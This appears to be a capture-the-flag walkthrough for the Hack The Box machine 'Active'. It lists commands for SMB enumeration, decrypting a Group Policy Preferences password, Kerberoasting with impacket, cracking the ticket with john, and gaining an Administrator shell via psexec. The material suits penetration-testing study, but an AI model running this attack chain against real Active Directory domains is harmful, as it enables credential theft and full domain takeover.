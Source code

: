 # Active Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA active -Pn 10.10.10.100``
### or
``nmap -p- -sV -oA fullactive 10.10.10.100``
### and 
``nmap --script safe -p 445 10.10.10.100``

* The right way here was the right enumeration of the port 445 **:white_check_mark:**

### DNS recon
``gobuster dns -d active.htb -t 25 -w /opt/seclists/Discovery/DNS/subdomains-top1million-20000.txt``

``dnsrecon -d 10.10.10.100 -r 10.0.0.0/8``

``nslookup ``

``server 10.10.10.100``

``127.0.0.1``

### SMB recon
``smbmap -H 10.10.10.100``

``enum4linux -a -u "" -p "" 10.10.10.100 ``

``enum4linux -a -u "guest" -p "" 10.10.10.100``

``smbclient -U '%' -L //10.10.10.100``

``smbclient -U 'guest%' -L //10.10.10.100``

### SMB to not miss anything in the share
``smbmap -R Replication -H 10.10.10.100``
``smbmap -R Replication -H 10.10.10.100 -A Groups.xml -q``
### or 
``smbclient //10.10.10.100/Replication``
``RECURSE ON``
``PROMPT OFF``
``mget *``

# ${{\color{purple}Initial Foothold}}\ $

### I found a password in the Groups.xml file but what to do afterwards on a box where the port 3389 is not open ?

Decode password :

`python3 gpp-decrypt.py -c edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ`

![image](https://user-images.githubusercontent.com/123066149/217777696-9092c454-7c24-4105-b10a-2a65fc5e4ef1.png)


# ${{\color{purple}Exploitation}}\ $

 ### 1) Find the users of the box 
``/usr/bin/impacket-GetADUsers -all -dc-ip 10.10.10.100 active.htb/svc_tgs``


![image](https://user-images.githubusercontent.com/123066149/217771016-d0786329-3bb6-4532-bb18-921fc95d9590.png)

### 2) List the user's rights on the shares  
Before 
![image](https://user-images.githubusercontent.com/123066149/217771660-8735c7cd-af60-48b9-982c-64d1fcedb241.png)
After
![image](https://user-images.githubusercontent.com/123066149/217771490-866b2fb7-5e4f-41b8-874a-e279cf7386ab.png)

### 3) Try a connection ( need Windows )

`runas /netonly /user:active.htb\svc_tgs cmd`

and list the shares :

`dir \\10.10.10.100\Users`

### 4) Try to get UserSPNs :

`/usr/bin/impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS` 

# ${{\color{purple}Privilege Escalation}}\ $

`/usr/bin/impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS` 

![image](https://user-images.githubusercontent.com/123066149/217774864-66183e11-96a7-4a42-819e-62e3e25316d9.png)

`john --wordlist=/usr/share/wordlists/rockyou.txt -format=krb5tgs ./krb5tgs.txt`

![image](https://user-images.githubusercontent.com/123066149/217775198-6f5eb564-77e6-4d6f-b49b-d23072f98973.png)

`/usr/bin/impacket-psexec active.htb/Administrator@10.10.10.100`

![image](https://user-images.githubusercontent.com/123066149/217775392-8a49d703-f564-4ac3-a139-34f4fccc0c69.png)

# ${{\color{purple}Points of Improvement}}\ $

* Add the domain ``active.htb`` directly from the ``host`` file.
* Before doing a ``locate`` command, use the ``updatedb`` command to update the database.
* Make an nmap script to know the version of smb ``nmap --script safe -445 10.10.10.100``
* Remember to change the ``/``in the command : ``/usr/bin/impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS``
Otherwise the command does not work     
